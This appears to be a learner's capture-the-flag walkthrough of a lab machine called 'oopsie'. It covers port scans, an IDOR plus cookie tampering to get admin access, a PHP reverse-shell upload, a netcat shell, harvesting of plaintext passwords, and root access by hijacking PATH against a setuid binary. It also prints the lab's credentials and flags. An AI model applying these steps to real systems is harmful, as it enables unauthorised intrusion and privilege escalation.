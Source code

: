 

Ok, we create our folders in which we are going to work, we made the first scans and this are the results

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 61:e4:3f:d4:1e:e2:b2:f1:0d:3c:ed:36:28:36:67:c7 (RSA)
|   256 24:1d:a4:17:d4:e3:2a:9c:90:5c:30:58:8f:60:77:8d (ECDSA)
|_  256 78:03:0e:b4:a1:af:e5:c2:f9:8d:29:05:3e:29:c9:f2 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Welcome
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

The website says that we must login, but we cannot find the login, we are going to use burpsuit wit a "web crawler"

Apparently this is new for me , I didnt know that when you open burpsuit and youre looking info abut the site, you can see folders and things for example .. loggins and etc

![[Screenshot_2023-09-01_10_06_17.png]]

This is very vulnerable... when you navigate as guest the navigator has this

```
http://10.129.31.249/cdn-cgi/login/admin.php?content=accounts&id=2
```

So, we can change de user , and watch on the cookies , what are the cookies of the admin or another users

admin access ID: 34322
name: admin

Ok, this was very stupid but it works, you change the cookies on the developer tools. Now we can upload files as admin, so I think we can add php malicious 

We did it , we put the pentest monkey php reverse shell. Now, we need to see where is the file so it can be executed.

```
gobuster dir --url http://10.129.31.249/ --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php
```
So, this is the folder
```
http://10.129.31.249/uploads/
```
This is the route
```
http://10.129.31.249/uploads/php-reverse-shell.php
```

WE listen with netcat and then we connect to the target. Now if we want to have a tty or something similar we must use this script , the other one (exploit /dev/null -c bash isnt work here)

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

we ho to /home/robert and we can catch the user flag

f2c74ee8db7983851ab2a96a44eb7981


Ok.. the correct path of this machine is just find the password of robert

Now on  a folder called cdn-cgi there was another called logins, inside of this we did this query


Very cool, you cat all the archives and search for the "passw" in everyone of them at the same time
```
cat * | grep -i passw*
```
I dont know why -i .. if i use grep passw* is the same result.. 
```
if($_POST["username"]==="admin" && $_POST["password"]==="MEGACORP_4dm1n!!")
<input type="password" name="password" placeholder="Password" />

```

By the way, this is not the password for robert the password is on the db.php file and this is 
```
M3g4C0rpUs3r!
```


# Privilege scalation #


```
sudo -l
```
as we know first of all we use , and robert has no permissions.
```
id
```
This shows the groups and the id of robert
```
uid=1000(robert) gid=1000(robert) groups=1000(robert),1001(bugtracker)
```
Robert is in group called "bugtracker", now we are going to find files or something interesting of this group, because robert is part of this one 
```
find / -group bugtracker 2>/dev/null
```
There is a file of bugtracker
```
/usr/bin/bugtracker
```
here we see priviledges and i dont know what does "file"
```
ls -la /usr/bin/bugtracker && file /usr/bin/bugtracker
```
And
ls -la /usr/bin/bugtracker
```
-rwsr-xr-- 1 root bugtracker 8792 Jan 25  2020 /usr/bin/bugtracker
```

file gives us this info:
```
/usr/bin/bugtracker: setuid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/l, for GNU/Linux 3.2.0, BuildID[sha1]=b87543421344c400a95cbbe34bbc885698b52b8d, not stripped
```

SO, when we execute this binary asks us  a bug id and then he cat something on /root/reports
```
/usr/bin/bugtracker

------------------
: EV Bug Tracker :
------------------

Provide Bug ID: 12
12
---------------

cat: /root/reports/12: No such file or directory

```

The tool is accepting user input as a name of the file that will be read using the cat command, however, it does not specifies the whole path to file cat and thus we might be able to exploit this. We will navigate to /tmp directory and create a file named cat with the following content:

```
/bin/sh
```
We will then set the execute privileges:
```
chmod +x cat
```
this was hard.. first create the file with 
```
touch cat 
```
and then add the content
```
echo "/bin/sh" > cat
```

now chmod +x cat

Now modify the path

```
export PATH=/tmp:$PATH
```

now we execute the comand and we are root

```
robert@oopsie:/tmp$ bugtracker
bugtracker

------------------
: EV Bug Tracker :
------------------

Provide Bug ID: whoami
whoami
---------------

# whoami
whoami
root
# 

```

this is the root flag
af13b0bee69f8a877c3faf667f7beacf